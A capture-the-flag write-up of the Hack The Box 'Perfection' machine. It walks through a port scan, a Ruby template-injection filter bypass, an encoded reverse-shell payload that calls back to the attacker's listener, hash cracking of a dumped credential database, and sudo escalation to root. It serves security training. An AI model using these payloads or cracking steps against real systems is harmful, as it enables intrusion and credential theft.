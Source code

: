 ```yaml
---
layout: post
author: Julio
date: 11-05-2024
title: Perfection Write-Up
---
```


# Perfection Write-Up

<div class="center"><img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="350"></div>

## Introduction

## First Steps

<p>We will first run an Nmap scan to discover all open ports:</p>

```bash
sudo nmap -p- -T4 --open -Pn 10.10.11.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:06 CEST
Nmap scan report for 10.10.11.253
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.85 seconds

```

<p>We can then run scripts to get the services and their versions.</p>

```bash
sudo nmap -sC -sV -p22,80 10.10.11.253 --open -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:09 CEST
Nmap scan report for 10.10.11.253
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds

```

<p>We can access the website and we will get a calculator</p>

<div class="center"><img src="/assets/images/screenshots/htb-perfection-website1.png"></div>

## User Flag

<p>In Burp Suite, we can try</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1={{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>In the response</p>

```html
[...snip]
       <p>Please enter a maximum of five category names, your grade in them out of 100, and their weight. Enter "N/A" into the category field and 0 into the grade and weight fields if you are not using a row.</p>
      </form>
      Malicious input blocked
    </div>
  </div>
[...snip]
```

<p>However, if we</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a{{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>And</p>

```html
[...snip] Your total grade is 80%
<p>aa {{7*7}}: 16%</p>
[...snip]
```

<p>We saw a reference to Sinatra in the error page. we can try an ssti ruby payload: <custom-code><%= 7*7 %> </custom-code></p>

```html
     </form>
      Your total grade is 80%<p>aa
49 : 16%</p>
```

<p>And it worked. We can now geenrate a reverse shell payload with GoPariah and send it in the request</p>´

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a<%25%3d+system("curl+10.10.16.8:9001?p=$(echo+-n+cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjgiLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc%3d+|+base64+-d+|+bash)")+%25>&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>WE will open a listener before sending it and we will get a connection back as "susan"</p>

```bash
nc -l 9001
susan@perfection:~/ruby_app$
```

<p>Once we are inside the machine, we can read the user flag</p>

## Root Flag

<p>Inside the machine, we can see that there's an email to susan:</p>

```bash
susan@perfection:~$ cat /var/spool/mail/susan
cat /var/spool/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

<p>Brute-forcing the password would probably be impossible. However, in the home directory we find a folder called "Migration" that contains a database</p>

```bash
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ file pupilpath_credentials.db
file pupilpath_credentials.db
pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
```

<p>We can use sqlite3 to open it</p>

```bash
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db
sqlite3 pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

<p>we can then use john with a mask to achieve</p>

```bash
Tools/john/run/john --format=raw-sha256 --mask=susan_nasus_\?d\?d\?d\?d\?d\?d\?d\?d\?d hashcrackmeplz
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
susan_nasus_413759210 (?)
1g 0:00:00:06 DONE (2024-05-11 17:48) 0g/s 14980Kp/s 14980Kc/s 14980KC/s susan_nasus_692759210..susan_nasus_003759210
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

<p>Now that we know her password, we can</p>

```bash
susan@perfection:~/Migration$ sudo -l
sudo -l
[sudo] password for susan: susan_nasus_413759210

Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~/Migration$ sudo su
sudo su
root@perfection:/home/susan/Migration#
```

<p>We can now read the root flag.</p>

<p>That's all, folks!</p>
